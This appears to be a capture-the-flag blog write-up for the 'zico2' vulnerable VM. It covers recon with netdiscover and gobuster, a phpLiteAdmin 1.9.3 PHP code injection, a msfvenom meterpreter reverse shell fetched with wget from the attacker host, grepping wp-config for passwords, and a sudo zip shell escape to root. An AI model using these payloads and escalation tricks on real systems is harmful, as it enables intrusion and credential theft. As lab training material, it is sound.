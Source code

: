 ```yaml
---
layout: post
title: zico2
slug: zico2
name: zico2
---
```


# zico2

## Recon:

Start off with netdiscover to find the host:

{% highlight bash %}
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 6 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 360
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.171.1   00:50:56:c0:00:01      1      60  VMware, Inc.
 192.168.171.135 00:0c:29:a2:b5:1b      2     120  VMware, Inc.
 192.168.171.254 00:50:56:e5:61:61      3     180  VMware, Inc.
{% endhighlight %}

Next run nmap and find ports 22, 80, 111 open.

Time to run gobuster using wordlists generated from dirbuster and seclists:

{% highlight bash %}
screen -S gobuster go run ~/go/src/gobuster -w wordlistzico.txt -u http://192.168.171.135

// (Status: 200)
//js/ (Status: 200)
//css/ (Status: 200)
//?q=user/register/ (Status: 200)
//?q=user/login/ (Status: 200)
//?q=search/ (Status: 200)
//?q=user/password/ (Status: 200)
//?q=comment/reply/ (Status: 200)
//?q=node/add/ (Status: 200)
//?q=admin/ (Status: 200)
//index (Status: 200)
//img/ (Status: 200)
//?q=user/logout/ (Status: 200)
//?q=filter/tips/ (Status: 200)
//?level=12 (Status: 200)
//? (Status: 200)
/?&what= (Status: 200)
//?q=contact/ (Status: 200)
//?q=logout/ (Status: 200)
//?q=* (Status: 200)
//?msk (Status: 200)
//?favorites (Status: 200)
//?* (Status: 200)
//view.php (Status: 200)
/js (Status: 301)
/css (Status: 301)
/img (Status: 301)
/tools (Status: 200)
/index (Status: 200)
/view (Status: 200)
/dbadmin (Status: 301)
/vendor (Status: 301)
/package (Status: 200)
/LICENSE (Status: 200)
/img (Status: 301)
/index (Status: 200)
/package (Status: 200)
/view (Status: 200)
/tools (Status: 200)
{% endhighlight %}

The dbadmin loads up a sql web admin, try admin as the pass and login successfully.

Now to lookup this version of phpliteadmin, 1.9.3

{% highlight bash %}
searchsploit phpliteadmin

PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | exploits/php/webapps/24044.txt
{% endhighlight %}

Looks like it worked after following steps from the exploit description and we have a way to get a reverse shell going.

Now to generate a PHP meterpreter script:

{% highlight bash %}
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.171.136 LPORT=4444 R > shell.php
{% endhighlight %}

Now to get a shell onto the box by adding a malicious DB column:

{% highlight php %}
<?php system("wget http://192.168.171.136:8000/shell.php -O /usr/databases/shell.php");?>
{% endhighlight %}

Now get meterpreter running:

{% highlight bash %}
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.171.136
set LPORT 4444
exploit
{% endhighlight %}

Then hit the page in the browser.

After some grepping I found a WordPress install, check the config for user/passwords:

{% highlight bash %}

cat /home/zico/wordpress/wp-config | grep -i 'user' && cat /home/zico/wordpress | grep -i 'pass'

{% endhighlight %}

Try SSHing with the user/pass and succeed, next run LinEnum and linuxprivchecker.py, but none of the exploits reported seem to work, after a lot of head baning, check out the allowed/banned sudo commands this user has:

{% highlight bash %}
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip

sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-comand="sh -c /bin/bash"

{% endhighlight %}

Get flag:

{% highlight bash %}

root@zico:~# cd /root/
root@zico:/root# ls
flag.txt
root@zico:/root# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#

{% endhighlight %}
